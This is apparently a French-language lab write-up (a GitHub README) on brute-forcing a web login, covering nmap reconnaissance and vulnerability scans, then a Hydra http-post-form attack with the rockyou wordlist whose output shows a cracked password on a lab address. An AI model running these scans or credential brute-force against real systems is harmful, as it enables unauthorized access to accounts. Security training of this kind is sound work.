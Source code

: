 # Brute force mot de passe   

___

Les étapes :     
**ifconfig** pour avoir le masque sous réseau et en déduire l'IP du réseau   
Scan du réseau pour voir l'ensemble des ports ouverts et des machines connectées avec **nmap IP du réseau**    
Obtenir des infos sur la cible (son adresse IP, ses ports ouverts, les statuts des ports et les services qu'ils utilisent, son adresse mac, son OS)   
avec **nmap -O IP de la machine connectée** et **nmap --script default IP de la machine connectée au réseau**          
Scan des vulnérabilités avec **nmpap -v --script vuln IP de la machine connectée**  
____

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/2fd3b248-1870-4147-9fc5-da17a689d2b6)

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/03415c7f-de60-4abb-812c-adda0fd781fb)

https://gist.githubusercontent.com/techerbeatrice/8204e406ba94922aba76167b08c2c38e/raw/fad76d1f4dc16377b9ecd98f9f6f52c13e6a4443/gistfile1.txt


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/419dbeba-f18e-4c21-9d4c-df2f7cbbadfb)

_____

Le lien php à craquer :    

http://192.168.56.104/login.php?login=admin

_____

Tutoriel commande sur Hydra :    

hydra  -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.104 http-post-form "/login:username=^USER^&password=^PASS^:F=Mot de passe invalide" -V

Comment utiliser hydra sur un formulaire web?
Pour faire du bruteforce avec hydra sur une formulaire web, il faudra utiliser la syntaxe suivante
**hydra -l -P http-post-form "{lien vers la page de connexion}:{les paramètres du formulaire}:F={message a rechercher sur la page si la connexion échoue}"**

Dans notre cas l’adresse de la cible est http://192.168.56.104/login, le message d’erreut est “Mot de passe invalide”, et enfin les paramètres de la requête que nous avons pu avoir grâce a l’option réseau du web develloper de firefox.


La commande finale donne:

hydra -l molly -P rockyou.txt 10.10.219.212 http-post-form "/login:username=^USER^&password=^PASS^:F=Your password is incorrect" -V. 
Résultat…

[80][http-post-form] host: 10.10.219.212   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found


